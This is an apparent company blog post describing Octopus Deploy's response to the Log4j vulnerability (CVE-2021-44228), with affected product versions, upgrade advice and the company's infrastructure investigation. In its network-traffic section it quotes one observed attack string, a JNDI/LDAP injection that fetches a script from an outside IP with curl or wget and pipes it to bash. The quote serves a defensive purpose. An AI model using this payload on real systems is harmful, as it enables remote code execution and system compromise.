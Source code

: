 ```yaml
---
title: Octopus Deploy's response to Log4j
description: Learn how Octopus Deploy responded to the Log4j vulnerability (CVE-2021-44228).
author: kyle.jackson@octopus.com
visibility: public
published: 2021-12-14-1400
metaImage: blogimage-security.png
bannerImage: blogimage-security.png
bannerImageAlt: Octopus on shield to represent security
isFeatured: false
tags: 
  - Product
  - Trust and Security
---
```


On Thursday, December 9, 2021, Octopus Deploy was made aware of a vulnerability in the Log4j logging utility ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)). We immediately enacted our Security Incident Response Plan to investigate our use of this utility and its impact on our products and infrastructure.

Fortunately, Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected. However, there are some related products that are impacted and require updates.

In this post, we share the results of our investigation and our recommended next steps for customers.

## JetBrains TeamCity plugin for Octopus Deploy

Version 6.1.7 of the JetBrains TeamCity plugin uses version 2.15.0 of Log4j. However, all versions of the plugin before 6.1.7 are using version 2.14.1 of Log4j and could be vulnerable to remote code execution.

### What you need to do

Version 6.1.7 of the Octopus Deploy plugin for TeamCity is available from the marketplace. If you're a TeamCity user, you should be notified of this update through the Web UI and you're strongly encouraged to update the plugin.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-12---Octopus-Deploy-TeamCity-Plugin-log4j2-dependency.2306410241.html) for updates.

## Octopus Java SDK

Version 0.0.3 of the Java SDK uses version 2.15.0 of Log4j. However, all versions of the Java SDK before 0.0.3 are using version 2.14.1 of Log4j and could be vulnerable to remote code execution.

### What you need to do

We recommend that customers using the Octopus Java SDK update their SDK version to 0.0.3.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-13---Octopus-Java-Client-SDK-log4j2-dependency.2306475696.html) for updates.

## Octopus Cloud, Octopus Server, and Octopus Tentacle

Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected by this vulnerability. They’re built with the .NET framework and don’t use any ported versions of Log4j.

## Breakdown of all products

| Product | Vulnerable Log4j version used | Vulnerable product versions | Patched product versions |
| ------- | ----------------------------- | --------------------------- | ------------------------ |
| Azure Devops & TFS Extension | No | N/A | N/A |
| Bamboo Add-on | No | N/A | N/A |
| Java SDK | Yes | <= 0.0.2 | 0.0.3 |
| Jenkins Plugin | No | N/A | N/A |
| Octopus CLI | No | N/A | N/A |
| Octopus Cloud | No | N/A | N/A |
| Octopus Server | No | N/A | N/A |
| Octopus Tentacle | No | N/A | N/A |
| TeamCity Plugin | Yes | <= 6.1.5 | 6.1.7 |

## Was Octopus Deploy compromised? 

Our internal infrastructure runs products that were using a vulnerable version of Log4j. However, we invested a significant amount of time after the initial announcement on Thursday, December 9, and we believe Octopus Deploy was not compromised.

While our engineering teams worked to update our affected products, our Security Operations team analyzed our systems to determine if they'd been exploited. The following sections will go further into our approach.

### Reviewing our internal infrastructure

The vast majority of our internal infrastructure is maintained as Infrastructure as Code (IaC). This allowed us to easily identify potentially vulnerable systems and push updates to those systems with minimal intervention.

When we couldn't determine if a system was vulnerable or not, we used known proof of concepts (PoC) to test if a system was vulnerable. This meant we could better mitigate the particular system.

### Reviewing network traffic

We maintain a lot of network data across our infrastructure, which allows us to identify suspicious network behavior that can result in exploitation of our infrastructure. While reviewing the network data, we identified the following:

1. Suspicious activity - We identified suspicious inbound network traffic to our systems including source IPs. However, we didn't identify any malicious outbound traffic which was reassuring.
1. Identifying targeted systems - While analyzing the network data we identified specific systems that were being aggressively targeted. We put extra controls and mitigations around those systems to reduce the risk of exploitation.

Here is a user agent string that was sent to one of our servers (decoded and redacted):

```
${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/(curl -s 45.155.205.233:5874/XXX.XXX.XXX.XXX:443||wget -q -O- 45.155.205.233:5874/XXX.XXX.XXX.XXX:443)|bash}
```
### Reviewing endpoints

Using the information from the network data, we reviewed specific endpoints that we knew had been aggressively targeted and confirmed they hadn't been compromised.

By using an EDR solution on our endpoints, we also closely monitored the endpoints for signs of compromise or potential exploitation. This data (along with other data sets) feeds into our SIEM (Security Incident and Event Management) system so we're alerted in near real-time and can respond accordingly.

Using all these approaches to investigate our infrastructure, we found no evidence of a compromise.

## Conclusion

We're continuing to track updates relating to this vulnerability. We'll provide further updates if there's any risk to our customers or products. 

If you have any questions, please reach out via [support@octopus.com](mailto:support@octopus.com).